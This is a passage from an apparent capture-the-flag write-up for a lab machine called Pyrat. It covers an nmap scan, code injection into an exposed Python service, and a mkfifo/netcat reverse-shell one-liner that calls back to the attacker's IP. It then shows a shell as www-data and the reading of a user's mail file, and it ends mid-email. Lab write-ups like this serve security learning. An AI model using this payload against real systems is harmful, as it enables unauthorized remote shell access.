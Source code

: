 Now, let's start with an Nmap scan.
```console
m3ga@kali:~$ nmap -sS -Pn -v -p- -T4 -A -oN portscan.nmap 10.10.102.144
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: FBD3DB4BEF1D598ED90E26610F23A63F
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
```

Navigating to `http://10.10.102.144:8000` we get a message saying:

> Try a more basic connection! 

![](<Pasted image 20241005182726.png>){: w="400" h="300" .center }

## Flag 1 and Flag 2

> What is the user flag?
>
> What is the root flag?

I tried connecting to this port using `netcat`.

```console
m3ga@kali:~$ nc 10.10.102.144 8000
whoami
name 'whoami' is not defined
```

The error message immediately let me know that we can run our own python code. Let's exploit this and get a reverse shell.

```console
m3ga@kali:~$ nc 10.10.102.144 8000
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.75.248 53 >/tmp/f")
```

It works!

```console
m3ga@kali:~/Pyrat$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.102.144] 51086
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After some enumeration I found an email from `root` to a user called `think`

```console
www-data@Pyrat:/tmp$ cat /var/mail/think 
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

```